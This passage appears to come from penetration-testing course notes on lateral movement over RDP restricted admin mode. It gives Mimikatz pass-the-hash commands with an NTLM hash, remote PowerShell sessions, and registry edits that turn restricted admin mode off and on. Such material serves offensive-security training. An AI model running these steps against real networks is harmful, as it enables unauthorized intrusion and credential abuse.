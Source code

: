 ```
Remove-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin
```

> Listing 5 - Deleting registry key required to use restricted admin mode

With restricted admin mode disabled, we'll verify that we indeed can no longer log in by first logging out of the RDP session on appsrv01 and immediately relaunching it from Mimikatz. When we click _Connect_, we are presented with the error message shown in Figure 4, which indicates that restricted admin mode is disabled:

![[OffSec/OSEP/Course/z. images/7041d66bc1f080374d50d58cc2f566b2_MD5.jpg]]

Figure 4: RDP login with restricted admin mode is blocked

At this point, we are able to fully demonstrate our lateral movement. To re-enable restricted admin mode, we are going to first launch a local instance of PowerShell on the Windows 10 machine in the context of the _admin_ user with Mimikatz.

```
mimikatz # sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell
user    : admin
domain  : corp1
program : powershell
impers. : no
NTLM    : 2892d26cdf84d7a70e2eb3b9f05c425e
  |  PID  4312
  |  TID  9320
  |  LSA Process was already R/W
  |  LUID 0 ; 39872945 (00000000:026069b1)
  \_ msv1_0   - data copy @ 0000024C0DD4C700 : OK !
  \_ kerberos - data copy @ 0000024C0DDC1C88
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 0000024C0E0C13F8 (32) -> null
```

> Listing 6 - Pass the hash to start PowerShell in the context of the admin user

From this PowerShell prompt, we'll use the Enter-PSSession cmdlet and supply the appsrv01 hostname as the -Computer argument. This will provide us with shell access to our target machine.

With this access, we'll create the registry entry as shown in Listing 7.

```
PS C:\Windows\system32> Enter-PSSession -Computer appsrv01

[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0

DisableRestrictedAdmin : 0
PSPath                 : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentCont
                         rolSet\Control\Lsa
PSParentPath           : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentCont
                         rolSet\Control
PSChildName            : Lsa
PSDrive                : HKLM
PSProvider             : Microsoft.PowerShell.Core\Registry

[appsrv01]: PS C:\Users\admin\Documents> Exit
PS C:\Windows\system32>
```
